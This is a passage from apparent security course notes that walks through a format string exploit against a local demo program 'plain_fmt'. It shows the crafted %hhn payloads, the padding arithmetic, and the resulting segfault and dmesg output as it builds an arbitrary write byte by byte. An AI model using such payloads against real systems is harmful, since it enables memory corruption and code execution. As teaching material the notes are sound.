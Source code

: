 
Next, we need 0x04 but we are writing 12 when we need 04.

``` {.example}
user@si485H-base:demo$ python -c "print (0x100 - 0x12) + 0x04 + 8"
250
user@si485H-base:demo$ ./plain_fmt $(printf "\x8f\xf6\xff\xbf")$(printf "\x8e\xf6\xff\xbf")$(printf "\x8d\xf6\xff\xbf")$(printf "\x8c\xf6\xff\xbf")%1\$247x.%123\$hhn.%1\$250x.%124\$hhn.%1\$008x.%125\$hhn.%1\$008x.%126\$hhn.%7\$#08x 
????????????????                                                                                                                                                                                                                                               bffff724..                                                                                                                                                                                                                                                  bffff724..bffff724..bffff724..0xdeadbeef
Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[497734.158660] plain_fmt[3136]: segfault at 8040e18 ip 08040e18 sp bffff690 error 14 in plain_fmt[8048000+1000]
```

Next, we need 0x84 and we are writing 0e:

``` {.example}
user@si485H-base:demo$ python -c "print ((0x100 - 0x0e) + 0x84 + 8)%256"
126
user@si485H-base:demo$ ./plain_fmt $(printf "\x8f\xf6\xff\xbf")$(printf "\x8e\xf6\xff\xbf")$(printf "\x8d\xf6\xff\xbf")$(printf "\x8c\xf6\xff\xbf")%1\$247x.%123\$hhn.%1\$250x.%124\$hhn.%1\$126x.%125\$hhn.%1\$008x.%126\$hhn.%7\$#08x 
????????????????                                                                                                                                                                                                                                               bffff724..                                                                                                                                                                                                                                                  bffff724..                                                                                                                      bffff724..bffff724..0xdeadbeef
Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[497815.575610] plain_fmt[3146]: segfault at 2 ip 00000002 sp bffff694 error 14 in plain_fmt[8048000+1000]
```

Uh oh .... what happened? Well, now that we are wrting 0x080484.. WE are
now in the valid address ranges for what we want to write. So we can no
longer rely on the dmesg output directly. Instead, we jumped to a valid
address and the segfaulted somewhere else.

But all is not lost. Instead, we can now just do two calculations at
once. Consider that the last time we wrote 126 bytes and the value in
the least significant byte before that change was 0x18. That means that
value should now be at: 0x18+126-8 = 0x8e. (The -8 was to account for
the 8 bytes already printed within the format for 0x008).

If we are writing 0x8e, what we want to write 7d, that means for the
last format we should be able to do this"
